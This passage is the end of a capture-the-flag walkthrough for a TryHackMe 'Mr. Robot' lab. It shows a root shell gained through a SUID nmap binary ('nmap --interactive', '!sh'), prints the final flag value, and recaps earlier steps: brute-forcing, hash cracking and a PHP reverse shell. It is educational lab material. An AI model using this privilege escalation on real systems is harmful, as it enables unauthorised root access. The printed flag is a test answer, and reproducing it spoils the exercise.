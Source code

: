 Okay there are many possilities. I checked the `hint` from THM and saw `nmap`.

We can use the tools from `gtfobins` to gain privileleged access.


[gtfobins-nmap](https://gtfobins.github.io/gtfobins/nmap/)


```bash
robot@linux:/$ cd /usr/local/bin
cd /usr/local/bin
robot@linux:/usr/local/bin$ ls -l nmap
ls -l nmap
-rwsr-xr-x 1 root root 504736 Nov 13  2015 nmap
robot@linux:/usr/local/bin$
nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
#
```

And we are `root`. Lets find the last flag!

```bash
# cd /
cd /
# cd root
cd root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4

```

We got it. 

Answer: `04787ddef27c3dee1ee161b21670b4e4`


## Thoughts:

This CTF has a very nice theme and you can see how much effort was spent into it. I think there are many cool concepts in it, but I think it was not really clear to proceed after the login into `wp-admin`. However, I learned a lot and perhaps you too? :-) 

What did we learn?
- using `nmap` for scan open ports and versions
- using `burpsuite` to intercept a `HTTP POST Request`
- using `hydra` for bruteforcing `user` and `password` 
- using `john` for cracking a md5 password
- using `php reverse shell` to get access to the server
- searched for `sudoid` bits


